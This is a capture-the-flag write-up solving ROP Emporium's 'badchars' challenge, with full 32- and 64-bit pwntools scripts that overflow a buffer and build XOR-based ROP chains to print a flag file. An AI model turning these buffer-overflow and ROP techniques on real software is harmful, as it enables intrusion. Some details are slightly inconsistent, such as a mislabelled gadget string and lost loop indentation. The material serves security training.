

ROP Emporium - badchars
Basic setup:
- ROPEmporium x86 & x86_64 binaries
- Ubuntu lab machine
- GDB & pwndbg
- pwntools
Link to challenge
https://ropemporium.com/challenge/badchars.html
The 32 bit solve
The aim of this challenge is similar to the challenge before (write4) where we aim to write the string “flag.txt” to an area of free memory so that the imported function print_file can be called with this argument which would print the flag. For this we need to utilise multiple ROP gadgets to build a ROP chain which can do this for us. However, some characters (a,g,x and .) have been banned and we need to find a work around. To do this work around, I used a XOR gadget which could bypass these banned characters being written.

The first step is to run checksec in order to find protections. Like usual, NX in enabled and partial RELRO exists so a ROP chain is required.
Using the rabin2 command we can see the strings with the -z flag as well as the imported functions with the -i flag. Here we can see the address of the print_file function which we will need to call. However, nothing else of use seeems to be present and we will need to utilise writeable memory locations to store strings. We also used the -S flag here to list the sections so that we can find a writeable area of memory with atleast 8 bytes of space for us to store the “flag.txt” string. The .data section meets this criteria so its address can be noted.
Opening the binary up within pwndbg, we can disassemble the usefulGadgets function in order to find some gadgets which may be worth taking note of. As usual, we see this mov DWORD PTR [edi],esi ; ret gadget which will be useful for us when writing values to the writeable memory section. We also see the gadget xor BYTE PTR [ebp+0x0], bl ; ret which can be used to XOR a specific byte with the lower quadrant of the ebx register (bottom 8). We can use this for each banned character by converting a valid string to “flag.txt” before we call print_file.
The function usefulFunction also exists which we can see the address of the call print_file instruction. We will be using the address on the far left here as this will mean that we do not need to provide a junk return address when using just print_file.
Now we have found some useful gadgets and the address for the print_file call, we can develop our logic for the XOR shenanigans. We can use Cyberchef to convert the banned characters to new characters using XOR with a key of the letter K. This will give us the characters *,e3 which are valid characters. This makes our string fl*,et3t instead of flag.txt. We can then use the XOR gadget before calling the print_file instruction to convert the string back to flag.txt so that we can bypass inputting the invalid characters.
As we start to order our payload in a separate text file, we now need to find our supplimentary gadgets so that our xor BYTE PTR [ebp+0x0], bl ; ret and mov DWORD PTR [edi],esi ; ret gadgets can be used with correct values in registers. We can use the ROPgadget command to search for these and we can copy the address. Here we see pop esi ; pop edi ; pop ebp ; ret which we can use to set both registers within the gadget mov DWORD PTR [edi],esi ; ret.
We now need to find a gadget which will allow us to set the value of ebp for the XOR gadget. This value will hold the address of the .data section for writing to. Through the command used before, we can search for pop ebp and we can see that a gadget for pop ebp ; ret is available so we can copy the address.
Lastly, for the XOR gadget, we need to find a gadget which will allow us to set the value of ebx. We can use the ROPgadget command again to search for pop ebx and we can see that a gadget for pop ebx ; ret is available so we can copy the address.
The final thing we need to do before writing our payload is to find the offset that the buffer overflow occurs at. As there is banned characters which we cannot input, we will need to use the cyclic command as usual but using the -a flag to specify the alphabet to use. We can use bcdefhijk as it is enough characters and excludes all the banned characters. This value can then be inputted into the input field and the value of EIP can be copied.
Now we can use the -l flag along with the alphabet parameter to find the offset of the buffer overflow. This value is 44.
Now we can order our payload and ROP chain. We first need to write the first 4 bytes of the string which avoids banned characters to the stack along with the .data address. We can use pop on line 1 to then move these into appropriate registers. The ebp register isn’t needed yet so we can fill it with random junk. The mov gadget can then be used to write the value in esi to the address of the .data section.
We then need to repeat this process with the second half of the string, writing it after the previously written part by specifying the .data section + 0x4 bytes.
A loop of through each banned character then is started which will XOR the correct index in memory with the lower quadrant of ebx. This will convert the stored valid characters to the desired banned characters we need.
Finally, we can call the print_file function with the address of the .data section as the argument. This will print the flag.txt file to the terminal.
A python3 script was created to generate the payload and complete this exploit. It uses pwntools similar to the other challenges and as usual, will be available at the end of this post.
The 64 bit solve
The 64 bit version of this challenge is similar but handles arguments differently. We also do not need to handle the string in blocks of 4 bytes as 64 bit architecture increases this to 8 bytes.
Using the rabin2 command we can see the strings with the -z flag as well as the imported functions with the -i flag. Here we can see the address of the print_file function which we will need to call. However, nothing else of use seeems to be present and we will need to utilise writeable memory locations to store strings. We also used the -S flag here to list the sections so that we can find a writeable area of memory with atleast 8 bytes of space for us to store the “flag.txt” string. The .data section meets this criteria so its address can be noted.
It is worth noting that we can use the .data section here but we should keep in mind that data may be written during runtime to this section which would mess up our exploit. We can use the .bss section instead which is a section of memory which is not initialised and is writeable. This is a better option as it won’t be written to by anything else during runtime. For our exploit, we will be using the .data section and for it to work, we will need to start the address from .data_address + 0x2.
Following the same logic as the 32 bit challenge, we can disassemble the usefulFunction provided to copy the address of the call print_file instruction.

Looking at the usefulGadgets function, we can see new gadgets of interest. Specifically, we can see xor BYTE PTR [r15],r14b which we can use for our bad character bypass. We can also see mov QWORD PTR [r13+0x0],r12 which we can use to write our string to the .data section.
Next we can get the offset for our exploit. Again we can use the cyclic command along with the -a flag to generate our input string. We can then input this into the input field and copy the value of RSP. We can then use the -l flag along with the alphabet parameter to find the offset of the buffer overflow.

This offset value is 40.
To accompany our mov QWORD PTR [r13+0x0],r12 gadget, we need to fill the r13 and r12 registers. We can search using ROPgadget for a gadget which will allow us to do this. We can see that a gadget for pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret is available so we can copy the address. r14 and r15 are not needed yet in our ordering logic so we can fill them with junk.

In order to accompany our xor BYTE PTR [r15],r14b gadget, we need to fill the r14 and r15 registers separately. We can search using ROPgadget for a gadget which will allow us to see a gadget for pop r14 ; pop r15 ; ret so we can copy the address.
64 bit architecture requires parameters inside the rdi register instead of being on the stack like the 32 bit architecture. We can search using ROPgadget for a gadget which will allow us pop rdi. A gadget for pop rdi ; ret exists so we can copy the address.
Finally, we can start to develop our exploit by working out the ordering. First, we will need to put our bypassing flag.txt string into the r12 register as well as the address of the .data section into the r13 register using our pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret gadget. We can then use our mov QWORD PTR [r13+0x0],r12 gadget to write the string to the .data section.
Next, we will start a loop which will perform the converting of the valid characters into the banned characters we need to read the flag. We will need to fill the r14 register with the key for our XOR operating and the r15 register with the address of the .data section indexed at the byte we want to convert.
After converting it all, we can populate the rdi register with the address of the .data section and call the print_file function which will get its required argument from the rdi register. The flag is then output to the screen.
A python3 script was created to generate the payload and complete this exploit. It uses pwntools similar to the other challenges and as usual, will be available at the end of this post.
The 32 bit python script
from pwn import *
##### SETUP & RUN #####
#Define the executable
exe = './badchars32'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# verbose logging so we can see what is being sent
context.log_level = 'info'
#delete corefiles after crash occurs
context.delete_corefiles = True
# run the elf
io = process()
##### FIND USEFUL ADDRESSES #####
# Locate the functions/strings we need - either do this manually or using pwntools
# Address needed to put parameters in registers
datasection = 0x0804a018
mov_gadget = 0x0804854f
pop_gadget = 0x080485b9
flagstr = 0x2c2a6c66
txtstr = 0x74337465 # writing text to memory requires little endian so it can be converted to big
call_print_file = 0x08048538
junkaddr = 0x61616161
xor_gadget = 0x08048547
pop_ebx = 0x0804839d
pop_ebp = 0x080485bb
k = 0x0000004b
badchars = ['a','g','.','x']
# Print out the target address
info("%#x writable .data section", datasection)
info("%#x mov DWORD PTR [edi], esi", mov_gadget)
info("%#x pop esi ; pop edi ; pop ebp ; ret", pop_gadget)
info("%#x fl*, (flag) string", flagstr)
info("%#x et3t (.txt) string", txtstr)
info("%#x pop ebx ; ret", pop_ebx)
info("%#x pop ebp ; ret", pop_ebp)
info("%#x Value of K used to xor", k)
info("%#x xor BYTE PTR [ebp+0x0],bl ; ret", xor_gadget)
info("%#x call print_file", call_print_file)
info("%#x random junk address", junkaddr)
print("Bad characters:", badchars)
##### FIND CRASH OVERWRITE RETURN ADDRESS OFFSET #####
# We will send a 'cyclic' pattern which overwrites the return address on the stack
# needs alphabet parameter so that banned characters aren't used.
payload = cyclic(200,alphabet='bcdefhijk')
# Send cyclic pattern to crash it
io.sendlineafter('> ', payload)
# Wait for the process to crash
io.wait()
# Open up the corefile created after crash
core = io.corefile
# Print out the address of EIP at the time of crashing
eip_value = core.eip
# cyclic find needs alphabet parameter so that banned characters aren't used.
eip_offset = cyclic_find(eip_value,alphabet='bcdefhijk')
info('located EIP offset at {a}'.format(a=eip_offset))
##### CRAFTING PAYLOAD #####
payload = b""
payload += b'A' * eip_offset
payload += p32(pop_gadget)
payload += p32(flagstr)
payload += p32(datasection)
payload += p32(junkaddr)
payload += p32(mov_gadget)
payload += p32(pop_gadget)
payload += p32(txtstr)
payload += p32(datasection + 0x4) # +4 so that we don't overwrite our "flag" string
payload += p32(junkaddr)
payload += p32(mov_gadget)
for char in badchars:
payload += p32(pop_ebx)
payload += p32(k)
payload += p32(pop_ebp)
if char == 'a':
payload += p32(datasection + 0x2) # a value
elif char == 'g':
payload += p32(datasection + 0x3) # g value
elif char == '.':
payload += p32(datasection + 0x4) # . value
elif char == 'x':
payload += p32(datasection + 0x6) # x value
payload += p32(xor_gadget)
payload += p32(call_print_file)
payload += p32(datasection)
print(payload)
##### SEND PAYLOAD AND GET FLAG #####
io = process()
io.sendlineafter('>', payload)
io.recvuntil('Thank you!\n')
#Get our flag!
flag = io.recv()
success(flag)
##### END #####
The 64 bit python script
from pwn import *
##### SETUP & RUN #####
#Define the executable
exe = './badchars'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# verbose logging so we can see what is being sent
context.log_level = 'info'
#delete corefiles after crash occurs
context.delete_corefiles = True
# run the elf
io = process()
##### FIND USEFUL ADDRESSES #####
# Locate the functions/strings we need - either do this manually or using pwntools
call_print_file = 0x0000000000400620
mov_qword_gadget = 0x0000000000400634
pop_rdi_gadget = 0x00000000004006a3
pop_r14_r15_gadget = 0x00000000004006a0
pop_r12_r13_r14_r15 = 0x000000000040069c
datasection = 0x0000000000601030
flagtxtstr = 0x743374652c2a6c66
junkaddr = 0x6161616161616161
k = 0x000000000000004b
xor_gadget = 0x0000000000400628
badchars = ['a','g','.','x']
# Print out the target address
info("%#x writable .data section", datasection)
info("%#x mov QWORD PTR [r13+0x0], r12", mov_qword_gadget)
info("%#x pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret", pop_r12_r13_r14_r15)
info("%#x fl*,et3t (flag.txt) string", flagtxtstr)
info("%#x pop rdi ; ret", pop_rdi_gadget)
info("%#x pop r14 ; pop r15 ; ret", pop_r14_r15_gadget)
info("%#x Value of K used to xor", k)
info("%#x xor BYTE PTR [r14],r14b ; ret", xor_gadget)
info("%#x call print_file", call_print_file)
info("%#x random junk address", junkaddr)
print("Bad characters:", badchars)
##### FIND CRASH OVERWRITE RETURN ADDRESS OFFSET #####
# We will send a 'cyclic' pattern which overwrites the return address on the stack
# needs alphabet parameter so that banned characters aren't used.
payload = cyclic(200,alphabet='bcdefhijk')
# Send cyclic pattern to crash it
io.sendlineafter('> ', payload)
# Wait for the process to crash
io.wait()
# Open up the corefile created after crash
core = io.corefile
stack = core.rsp
info("%#x stack", stack)
# Read four bytes from RSP, which will be some of our cyclic data.
# With this snippet of the pattern, we know the exact offset from
# the beginning of our controlled data to the return address.
pattern = core.read(stack, 4)
# cyclic find needs alphabet parameter so that banned characters aren't used.
offset = cyclic_find(pattern, alphabet='bcdefhijk')
info("%r pattern (offset: %r)", pattern, offset)
##### CRAFTING PAYLOAD #####
payload = b""
payload += b'A' * offset
payload += p64(pop_r12_r13_r14_r15)
payload += p64(flagtxtstr)
payload += p64(datasection)
payload += p64(junkaddr)
payload += p64(junkaddr)
payload += p64(mov_qword_gadget)
for char in badchars:
payload += p64(pop_r14_r15_gadget)
payload += p64(k)
if char == 'a':
payload += p64(datasection + 0x2)
elif char == 'g':
payload += p64(datasection + 0x3)
elif char == '.':
payload += p64(datasection + 0x4)
elif char == 'x':
payload += p64(datasection + 0x6)
payload += p64(xor_gadget)
payload += p64(pop_rdi_gadget)
payload += p64(datasection)
payload += p64(call_print_file)
print(payload)
##### SEND PAYLOAD AND GET FLAG #####
io = process()
io.sendlineafter('> ', payload)
io.recvuntil('Thank you!\n')
#Get our flag!
flag = io.recv()
success(flag)
##### END #####